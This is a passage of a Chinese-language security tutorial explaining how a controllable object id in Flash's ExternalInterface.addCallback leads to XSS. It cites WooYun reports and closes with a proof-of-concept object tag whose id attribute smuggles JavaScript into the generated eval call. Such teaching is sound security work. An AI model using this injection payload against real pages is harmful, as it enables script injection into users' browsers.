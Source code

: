 Ps.当反编译 Flash 文件，发现 htmltext 输出点的时候，可以查看相关是否存在相关的可控的输入，可能存在 xss。 Flash 缺陷参数 object 的 id 可控 html 与 swf 通讯的时候，使用的是 ExternalInterface.addCallback 函数，调用如下：

```
function a(){
  trace(“hi”);
}
ExternalInterface.addCallback(“test”,a);

```

执行了函数之后，在 html 上可以通过使用函数名 test 来调用 Flash 中的函数 a。

addCallback 的原理：

```
if ((((activeX == true)) && (!((objectID == null))))){

    _evalJS((((("__Flash__addCallback(document.getElementById(\"" + objectID) + "\"), \"") + functionName) + "\");"));

};

```

objectID 为 Flash 的 id，functionName 为函数名称，因此当我们插入的 Flash 的 id 可控的时候，可能会出现 xss 问题。

Wooyun 上已经出现的类似问题：

[WooYun: [腾讯实例教程] 那些年我们一起学 XSS - 21\. 存储型 XSS 进阶 [猜测规则，利用 Flash addCallback 构造 XSS]](http://www.wooyun.org/bugs/wooyun-2013-016803)

[WooYun: Flash 应用安全系列[4]--Flash Player 的又一个 0day](http://www.wooyun.org/bugs/wooyun-2013-017309)

[WooYun: QQ 空间某功能缺陷导致日志存储型 XSS - 12](http://www.wooyun.org/bugs/wooyun-2013-021020)

本着学习的原则，本地创建了 Flash 文件，

```
function a(){
    trace("hi")
}
ExternalInterface.addCallback("test",a)

```

x.html 页面

```
<object id="addcallback,&quot;),(function(){if(!window.x){window.x=1;alert(1)}})(),(&quot;" codeBase="http://fpdownload.macromedia.com/get/Flashplayer/current/swFlash.cab#version=8,0,0,0" classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000">
<param name="movie" value = "./addCallback.swf" />
<param name="allowScriptAccess" value="always" />
<param name="allowNetworking" value="all" />
</object>

```
